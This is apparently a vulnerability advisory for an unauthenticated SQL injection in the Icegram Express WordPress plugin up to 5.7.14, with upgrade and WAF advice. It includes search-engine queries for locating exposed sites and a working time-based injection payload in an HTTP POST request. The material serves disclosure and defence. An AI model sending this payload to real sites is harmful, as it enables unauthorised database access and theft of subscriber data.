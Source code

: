 ### Description
The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection 
via the 'run' function of the 'IG_ES_Subscribers_Query' class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient 
preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Query
- FOFA : body="/wp-content/plugins/email-subscribers/"
- publicwww : "/wp-content/plugins/email-subscribers/"

### Proof of concept
```bash
@timeout: 20s (using burpsuite)
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```

### How to fix ?
- Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19).
- Patchstack users have the option to enable automatic updates specifically for vulnerable plugins.
- Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.
